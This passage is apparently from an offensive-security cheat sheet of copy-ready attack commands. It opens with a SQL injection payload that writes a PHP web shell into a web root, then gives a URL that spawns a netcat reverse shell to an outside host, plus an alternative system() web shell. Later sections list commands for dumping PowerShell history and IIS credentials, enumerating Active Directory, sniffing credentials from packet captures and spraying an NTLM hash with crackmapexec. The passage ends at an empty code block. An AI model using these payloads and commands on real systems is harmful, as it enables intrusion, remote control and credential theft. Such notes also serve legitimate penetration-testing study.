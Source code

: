 
PHP:
- First modify the post request parameters to create a php file which executes the shell:  
  `q=test&lang=en' union select all 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/newbackdoor.php';#`  
  afterwards run the command to spawn a reverse shell:  
  `http://10.11.14.101/newbackdoor.php?cmd=c:\users\offsec\desktop\tools\netcat\nc.exe -nv 10.11.0.90 443 -e cmd.exe` 
- Alternative:  
  `<?php echo system($_GET["cmd"]);?>` 

## Info Gathering 
### Windows
- PS History: `cat (Get-PSReadlineOption).HistorySavePath`  
- `type C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`  
- `Get-ScheduledTask| % { $_.Actions}` 
- `schtasks /query /v /fo LIST`  
- IIS App Pool Creds: `(ls IIS:\AppPools | Get-ItemProperty -Include ProcessModel).ProcessModel | select UserName,Password`  
- psexec.py Login with account:  
`psexec.py administrator@10.10.10.10`  

### Active Directory
- Query AD without PS AD Modules  
  List Global Catalogs of a forest:
   `([System.DirectoryServices.ActiveDirectory.Forest]::Getcurrentforest()).GlobalCatalogs`  
- User Enumeration  
   https://github.com/sensepost/UserEnum
- User Enumeration using Impacket:   
  `# lookupsid.py domain.local/username:password@<dc-ip>`   
- Return all GPOs that modify local group memberships through Restricted Groups or Group Policy Preferences. (Using PowerUp)   
  `Get-DomainGPOLocalGroup`   
- Enumerate the machines where a specific domain user/group is a member of a specific local group. (Using PowerUp)
  `powershell Get-DomainGPOUserLocalGroupMapping -LocalGroup Administrators`   
- Find domain machines were specific users are logged into. (Using PowerUp)   
  `Find-DomainUserLocation`   
- Query Session information of a remote (or local) computer. (Using PowerUp)
  `Get-NetSession -ComputerName dc1`   
- krbtgt Account: If the krbtgt was created with Windows 2000, the chance is its pw is user provided and can be cracked (pwdLastSet should be before ~2003/4?)   
- Python port of PowerView (Pywerview): https://github.com/the-useless-one/pywerview   

### Network
- run wireshark, save dump --> `./Pcredz -f dump.pcap`  
  or: `sudo ./net-creds.py -p dump.pcap` 

### MySQL command line
- using found credentials:   
  ` mysql -uroot -p<pass> -e 'show databases;'`   
## crackmapexec (Use NetExec instead!)
- "hash spraying" (in this case with local administrator)  
   `cme smb 172.16.1.0/24 -u Administrator -H 7facdc498ed1680c4fd1448319a8c04f --local-auth` 
- Share enumeration with credentials:  
  `cme smb 172.16.1.0/24 -u bill -p 'password' --shares` 
- Test if user and password combination of domain user are correct:   
  `crackmapexec smb domain.local -d DOMAIN -u username -p password`   
- CME using Kerberos: (Requires FQDN in request to be the same as in the krb ticket!)
  ```
  ```